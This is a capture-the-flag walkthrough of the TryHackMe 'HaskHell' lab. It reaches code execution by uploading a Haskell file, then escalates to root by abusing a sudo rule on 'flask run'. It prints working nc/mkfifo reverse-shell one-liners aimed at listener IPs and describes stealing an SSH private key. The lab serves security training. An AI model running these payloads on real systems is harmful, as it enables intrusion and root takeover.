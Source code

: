 # HaskHell

https://tryhackme.com/room/haskhell

A simple room, with a few new techs. Fun since I write in F#, a language in the same vein as Haskell, sometimes.

1. A port scan revealed 22 and 5001. On 5001 was a website asking users to submit their haskell assignments.
2. The link to send haskell files on the homework page didn't work, but a dirb on the ip revealed /submit which did
3. Testing with the following file proved I had RCE (code is from rosetta code [here](https://rosettacode.org/wiki/Execute_a_system_command#Haskell)):

```haskell
import System.Cmd
 
main = system "ls"
```

4. The following connected a reverse shell (as 'flask'):

```haskell
import System.Cmd
 
main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.5.4 4444 >/tmp/f"
```

5. In the /home/prof directory was a .ssh with a readably id_rsa. I extracted this to ssh in as prof.
6. Prof had  `(root) NOPASSWD: /usr/bin/flask run`. After a bit of trial and error around how this command worked, I got a root reverse shell via:

    a. creating a file called shell.py with the following contents:

    ```python
    import os
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.112.79 4444 >/tmp/f")
    ```

    b. calling `export FLASK_APP=shell.py`

    c. running `sudo /usr/bin/flask run`

Easy, but interesting!

**BONUS:** for step six, rather than catching a root reverse shell, changing shell.py to contain `import pty; pty.spawn('/bin/bash')` works as well, spawing an instant root shell.
